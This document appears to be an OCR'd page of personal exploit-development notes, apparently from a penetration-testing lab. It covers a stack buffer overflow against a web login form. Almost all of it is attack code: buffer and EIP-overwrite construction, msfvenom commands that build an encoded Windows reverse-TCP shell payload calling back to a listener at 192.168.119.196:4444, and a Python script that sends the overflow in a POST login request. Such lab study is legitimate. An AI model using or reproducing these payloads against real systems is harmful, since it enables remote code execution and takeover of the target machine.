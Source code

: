 ```python
    filter = "A" * 780
    eip = "\x83\x0c\x09\x10"   //反向
    offset = "C" * 4
    buffer_end = "D" * (1500 - len(filter) - len(eip) - len(offset))
    inputBuffer = filter + eip + offset + buffer_end
```

## 6.generating shellcode 

```
msfvenom -l payloads
//-p 指定payload
//-f c,  c-format code
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.196 LPORT=4444 -f c
//-b 指定badchars
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.196 LPORT=4444 -f c –e
x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

## 7 get shell

```
//use exitthread, to avoid interrupting the service
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.196 LPORT=4444 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

```python
#!/usr/bin/python
import socket
import time
import sys

shellcode = ()
try:
    print "\nSending evil buffer "
    filter = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    nops = "\x90" * 10
    inputBuffer = filter + eip + offset + nops + shellcode
    content = "username=" + inputBuffer + "&password=A"
    sock_buffer = "POST /login HTTP/1.1\r\n"
    sock_buffer += "Host: 192.168.196.10\r\n"
    sock_buffer += "User - Agent: Mozilla / 5.0 (X11; Linux_86_64; rv: 52.0) Gecko / 20100101Firefox / 52.0\r\n"
    sock_buffer += "Accept: 9text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    sock_buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    sock_buffer += "Referer: http://192.168.196.10/login\r\n"
    sock_buffer += "Connection: close\r\n"
    sock_buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    sock_buffer += "Content-Length: " + str(len(content)) + "\r\n"
    sock_buffer += "\r\n"
    sock_buffer += content
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.196.10", 80))
    s.send(sock_buffer)
    s.close()
    print "\nDone!"
except:
    print "Could not connect!"
```
